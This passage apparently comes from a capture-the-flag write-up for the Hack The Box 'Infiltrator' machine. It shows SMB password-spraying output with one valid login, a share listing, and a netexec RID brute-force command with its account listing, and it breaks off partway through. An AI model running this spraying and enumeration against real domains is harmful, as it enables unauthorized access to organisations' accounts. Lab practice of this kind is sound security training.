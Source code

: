 ```c
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\kturner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\turner:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\amanda:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\amanda.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\awalker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\walker:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\marcus:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\marcus.harris:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\mharris:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\harris:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\lauren:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [-] infiltrator.htb\lauren.clark:WAT?watismypass! STATUS_LOGON_FAILURE 
SMB         10.129.223.154  445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.223.154  445    DC01             [*] Enumerated shares
SMB         10.129.223.154  445    DC01             Share           Permissions     Remark
SMB         10.129.223.154  445    DC01             -----           -----------     ------
SMB         10.129.223.154  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.223.154  445    DC01             C$                              Default share
SMB         10.129.223.154  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.223.154  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.223.154  445    DC01             SYSVOL          READ            Logon server share
```

## RID Brute Forcing

With `read permissions`  on `IPC$` we went for `RID Brute Forcing` to gain a more comprehensive list of `available usernames and groups`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec smb 10.129.223.154 -u 'l.clark' -p 'WAT?watismypass!' --rid-brute
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.129.223.154  445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
SMB         10.129.223.154  445    DC01             498: INFILTRATOR\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.223.154  445    DC01             500: INFILTRATOR\Administrator (SidTypeUser)
SMB         10.129.223.154  445    DC01             501: INFILTRATOR\Guest (SidTypeUser)
SMB         10.129.223.154  445    DC01             502: INFILTRATOR\krbtgt (SidTypeUser)
SMB         10.129.223.154  445    DC01             512: INFILTRATOR\Domain Admins (SidTypeGroup)
SMB         10.129.223.154  445    DC01             513: INFILTRATOR\Domain Users (SidTypeGroup)
SMB         10.129.223.154  445    DC01             514: INFILTRATOR\Domain Guests (SidTypeGroup)
```